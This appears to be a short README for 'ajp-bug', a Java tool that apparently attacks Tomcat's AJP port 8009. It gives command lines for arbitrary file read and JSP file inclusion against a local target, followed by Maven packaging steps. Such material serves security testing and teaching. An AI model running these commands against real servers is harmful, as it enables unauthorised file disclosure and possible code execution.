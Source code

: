 任意文件读取

java -jar ajp-bug-1.0-SNAPSHOT-jar-with-dependencies.jar 127.0.0.1 8009 file /index.jsp

文件包含

java -jar ajp-bug-1.0-SNAPSHOT-jar-with-dependencies.jar 127.0.0.1 8009 jsp /index.jsp

打包方式：

在目录tomcat/ajp-bug
执行 mvn clean compile assembly:assembly